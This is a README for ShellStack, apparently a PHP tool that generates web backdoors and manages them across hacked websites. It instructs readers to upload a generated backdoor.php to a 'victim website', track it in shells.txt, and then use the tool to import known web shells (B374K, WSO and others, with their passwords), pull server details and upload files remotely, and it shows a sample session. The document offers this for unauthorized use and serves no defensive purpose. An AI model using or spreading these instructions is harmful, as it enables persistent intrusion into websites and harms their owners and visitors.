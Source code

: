 # ShellStack 
#### Version 1.0
#### Coded By Ranger Exploit Community
----
ShellStack is a PHP based backdoor management tool. This Tool comes handy for "HACKERS" who wish to keep a track of every website they hack. The tool generates a backdoor file which you just have to upload to the site and put the backdoor URL in the shells.txt present in the tool's directory.

# With ShellStack You can
- Import PHP Shells
- Get Server Details
- Upload Files From Your System using your terminal
- And Above all You Can Manage Your Backdoors Efficiently

# How To Use
1. `git clone https://github.com/rangerexploit/shellstack`
2. `cd shellstack`
3. `php shellstack.php`
4. `generatebd` and exit the tool use <kbd>CTRL</kbd> + <kbd>C</kbd> - This will generate a backdoor file in the same directory as of the tool in a file named **backdoor.php**
5. Upload The Backdoor File To The Victim website
6. Copy The Backdoor URL and paste it in the **shells.txt** file present in the tool's directory and save it (*Each backdoor is separated by a new line*)
7. `php shellstack.php`
8. Enter The **Serial No** Assigned To The Backdoor
9. Rest is pretty Self explanatory



# Requirements
``` 
php
curl 
```
# Example
```
php shellstack.php


________________________________________________________________________________
_______ _     _ _______               _______ _______ _______ _______ _     _
|______ |_____| |______ |      |      |______    |    |_____| |       |____/
______| |     | |______ |_____ |_____ ______|    |    |     | |_____  |    \_
________________________________________________________________________________

                    Simple Backdoor Management System
                    Coded By Ranger Exploit Community 
                    More Deteils: ranger-exploit.com  
================================================================================



List Of Backdoors:

0. http://localhost/backdoor.php
=============================================

[#] Enter Either Of These (Backdoor No.|help|generatebd) : 0

[+] Shell Selected: http://localhost/backdoor.php
[+] Validating Backdoor: Backdoor Found!

List Of Actions
================
[1] Import PHP Shells
[2] Server Details
[3] Remove Backdoor
[4] Remote File Upload
[5] Exit

[#] Select Option(1|2|3|4|5):2

[+] Server Info
[i] Sending Request And Getting Response...
[i] Server: Linux RANGER 4.9.0-kali4-amd64 #1 SMP Debian 4.9.30-1kali1 (2017-06-06) x86_64
[i] Server IP: 127.0.0.1


Press Enter To Continue


List Of Actions
================
[1] Import PHP Shells
[2] Server Details
[3] Remove Backdoor
[4] Remote File Upload
[5] Exit

[#] Select Option(1|2|3|4|5):1


List Of Shells
===============
[1] Dhanush shell {User & Pass : shellstack123}
[2] B374K shell {Pass : shellstack123}
[3] Kurama shell V.1.0 {Pass : red}
[4] WSO shell {Pass : shellstack123}
[5] MiNi shell {User & Pass : shellstack123}

[#] Select Shell To Import(1-5):1


[i] Importing Shell...
[i] Sending Request And Getting Response...
[R] Dhanush Shell Imported Successfully To /var/www/html/dhanush.php


Press Enter To Continue


List Of Actions
================
[1] Import PHP Shells
[2] Server Details
[3] Remove Backdoor
[4] Remote File Upload
[5] Exit

[#] Select Option(1|2|3|4|5):5
root@RANGER:/home/redhaxor/Desktop/shellstack# 

```
# Release(s)
> Version 1.0 On 14-06-2017

# screenshots
<img src="http://oi68.tinypic.com/2mybzo3.jpg"
<img src="http://oi64.tinypic.com/2yycs1t.jpg"
